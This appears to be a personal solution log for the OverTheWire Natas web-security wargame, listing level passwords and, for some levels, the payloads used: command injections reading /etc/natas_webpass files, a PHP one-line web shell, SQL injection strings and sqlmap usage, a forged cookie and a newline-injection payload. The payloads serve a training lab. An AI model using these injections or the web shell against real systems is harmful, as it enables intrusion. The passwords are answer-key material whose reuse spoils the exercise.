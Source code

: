 #### Level1
* gtVrDuiDfck831PqWsLEZy5gyDz1clto

#### Level2
* ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

#### Level3
* natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

#### Level4
* natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

#### Level5
* natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

#### Level6
* aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

#### Level7
* /etc/natas_webpass/natas8
* 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

#### Level8
* DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

#### Level9
* W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

#### Level10
* curl -X GET "http://127.0.0.1:8001/level9.php?needle=-A+1+level1"
* grep -P '\d{4}' file.txt
* grep -i ; cat /etc/natas_webpass/natas10 file.txt
* nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

#### Level11
* grep -i $ cat /etc/natas_webpass/natas11 dictionary.txt
* U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

#### Level12
* curl -u natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK -H "Cookie: data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK" -X GET "http://natas11.natas.labs.overthewire.org/"
* EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

#### Level13
> 	$s=$_REQUEST['simba']; system($s);
* jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

#### Level14
* cat /etc/natas_webpass/natas14
* Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

#### Level15
>	 sqlmap -r r.req -p password
*	 " or "1"="1
* AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

#### Level16
* username=natas16" and hex(password) like "576149484561636a3633776e4e4942524f4865716933703974306d356e686d68%";-- -
* WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

#### Level 17
* 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

#### Level18
* xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

#### Level19
* 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

#### Level20
* eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF

#### Level21
* payload: %0aadmin+1
* IFekPyrQXftziDEsUr3x21sYuahypdgJ
